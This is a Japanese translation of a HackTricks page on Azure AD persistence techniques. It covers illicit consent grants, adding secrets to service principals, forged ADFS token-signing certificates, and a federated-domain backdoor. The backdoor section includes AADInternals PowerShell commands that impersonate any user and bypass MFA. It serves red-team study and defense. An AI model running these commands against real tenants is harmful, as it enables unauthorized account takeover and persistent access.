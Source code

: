 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

デフォルトでは、任意のユーザーがAzure ADにアプリケーションを登録できます。したがって、高い影響力のある権限が必要なアプリケーション（ターゲットテナント専用）を管理者の同意で登録できます（管理者であれば承認できます） - ユーザーの代理でメールを送信したり、役割管理を行ったりすることなどです。これにより、成功した場合に非常に**有益**な**フィッシング攻撃**を**実行**することができます。

さらに、アクセスを維持する手段として、そのアプリケーションを自分のユーザーとして受け入れることもできます。

### Applications and Service Principals

アプリケーション管理者、GA、またはmicrosoft.directory/applications/credentials/update権限を持つカスタムロールの特権を持つ場合、既存のアプリケーションに資格情報（シークレットまたは証明書）を追加できます。

**高い権限を持つアプリケーションをターゲットにする**ことも、**高い権限を持つ新しいアプリケーションを追加する**ことも可能です。

アプリケーションに追加するのに興味深い役割は、**特権認証管理者ロール**であり、これによりグローバル管理者の**パスワードをリセット**することができます。

この技術はまた、**MFAをバイパス**することも可能です。

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 証明書ベースの認証の場合

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - トークン署名証明書

**DA権限**を持つオンプレミスADでは、非常に長い有効期限を持つ**新しいトークン署名**および**トークン復号証明書**を作成およびインポートすることが可能です。これにより、私たちは**ImmutableID**を知っている任意のユーザーとして**ログイン**することができます。

**以下のコマンドを** **ADFSサーバー上のDAとして実行**して、新しい証明書を作成し（デフォルトのパスワードは'AADInternals'）、それらをADFSに追加し、自動ロールオーバーを無効にし、サービスを再起動します：
```powershell
New-AADIntADFSSelfSignedCertificates
```
次に、Azure ADで証明書情報を更新します：
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

テナントにGA権限がある場合、**新しいドメインを追加**することが可能です（確認が必要です）、その認証タイプをFederatedに設定し、ドメインを**特定の証明書**（以下のコマンドのany.sts）および発行者を**信頼**するように設定します：
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 参考文献

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
